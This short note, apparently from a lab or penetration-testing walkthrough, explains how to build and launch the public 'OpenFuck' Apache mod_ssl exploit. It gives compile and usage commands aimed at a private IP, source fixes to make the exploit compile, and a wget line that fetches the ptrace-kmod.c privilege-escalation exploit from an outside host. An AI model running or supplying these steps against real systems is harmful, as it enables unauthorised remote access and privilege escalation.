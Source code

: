 Compile command:

gcc -o OpenFuck ./openfuck.c -lcrypto

Use command:

./OpenFuck 0x73 192.168.15.222 443


Original Exploit Location:



Changes from original:

#include <openssl/rc4.h>
#include <openssl/md5.h> 

Add "const" to line 961:

const unsigned char *p, *end;

This the following wget command fails, but non-root (apache) access is still achievable

wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c


